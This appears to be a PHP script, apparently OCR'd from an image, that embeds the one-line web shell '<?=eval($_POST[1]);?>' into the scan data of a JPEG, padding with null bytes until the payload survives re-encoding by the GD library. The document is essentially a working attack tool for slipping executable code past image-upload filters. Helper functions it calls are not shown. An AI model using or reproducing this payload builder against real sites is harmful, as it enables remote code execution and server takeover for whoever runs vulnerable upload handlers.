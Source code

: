 ```php
<?php
$miniPayload = '<?=eval($_POST[1]);?>';
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    die('php-gd is not installed');
}
if(!isset($argv[1])) {
    die('php jpg_payload.php <jpg_name.jpg>');
}
set_error_handler("custom_error_handler");
for($pad = 0; $pad < 1024; $pad++) {
    $nullbytePayloadSize = $pad;
    $dis = new DataInputStream($argv[1]);
    $outStream = file_get_contents($argv[1]);
    $extraBytes = 0;
    $correctImage = TRUE;
    if($dis->readShort() != 0xFFD8) {
        die('Incorrect SOI marker');
    }
    while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
        $marker = $dis->readByte();
        $size = $dis->readShort() - 2;
        $dis->skip($size);
        if($marker === 0xDA) {
            $startPos = $dis->seek();
            $outStreamTmp =
                substr($outStream, 0, $startPos) .
                $miniPayload .
                str_repeat("\0",$nullbytePayloadSize) .
                substr($outStream, $startPos);
            checkImage('_'.$argv[1], $outStreamTmp, TRUE);
            if($extraBytes !== 0) {
                while((!$dis->eof())) {
                    if($dis->readByte() === 0xFF) {
                        if($dis->readByte !== 0x00) {
                            break;
                        }
                    }
                }
                $stopPos = $dis->seek() - 2;
                $imageStreamSize = $stopPos - $startPos;
                $outStream =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    substr(
                        str_repeat("\0",$nullbytePayloadSize).
                        substr($outStream, $startPos, $imageStreamSize),
                        0,
                        $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                    substr($outStream, $stopPos);
            } elseif($correctImage) {
                $outStream = $outStreamTmp;
            } else {
                break;
            }
            if(checkImage('payload_'.$argv[1], $outStream)) {
                die('Success!');
            } else {
                break;
            }
        }
    }
}
unlink('payload_'.$argv[1]);
```